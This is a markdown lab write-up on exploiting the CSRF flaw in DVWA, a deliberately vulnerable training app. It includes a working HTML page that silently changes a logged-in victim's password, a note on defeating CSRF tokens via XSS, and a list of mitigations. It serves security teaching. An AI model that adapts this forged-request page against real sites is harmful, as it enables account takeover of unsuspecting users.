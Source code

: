 ## DVWA – Cross-Site Request Forgery (CSRF)

---

### 🎯 Objective
Exploit the **CSRF vulnerability** in DVWA to change a logged-in user's password without their consent.

---

### 🧪 Lab Setup
* **Target:** DVWA (Damn Vulnerable Web Application)
* **Security Level:** Low (DVWA Security → Low)
* **Precondition:** Victim must be logged into DVWA (active session cookie)

---

### ⚙ Attack Steps

#### 1️⃣ Create a Malicious Web Page
Save the following HTML file as `csrf_attack.html` on any accessible web server:

```html
<html>
  <body>
    <h1>Click Me!</h1>
    <form action="http://<DVWA-IP>/dvwa/vulnerabilities/csrf/" method="GET">
      <input type="hidden" name="password_new" value="hacked123">
      <input type="hidden" name="password_conf" value="hacked123">
      <input type="hidden" name="Change" value="Change">
      <input type="submit" value="Click here">
    </form>
  </body>
</html>
```

---

#### 2️⃣ Deliver the Attack
1. Victim visits the malicious page while logged into DVWA.
2. The form auto-submits or the victim clicks the button.
3. Victim’s DVWA password changes to `hacked123` without their knowledge.

---

### 🔒 Higher Security Levels

| Security Level | Protection Mechanism             | Bypass Notes |
|----------------|----------------------------------|--------------|
| Medium / High  | CSRF tokens in form submissions  | Requires capturing token via XSS or session hijack before forging request |

---

### 🛡 Mitigation Techniques
* Implement unpredictable **CSRF tokens** per request and validate them server-side.
* Verify `Referer` or `Origin` headers for sensitive requests.
* Require **re-authentication** for password changes or account modifications.

---

### 📌 Take-Aways
* CSRF exploits the **trust** a site has in a user's browser.
* Without proper CSRF defenses, **any state-changing request** can be forged by an attacker.
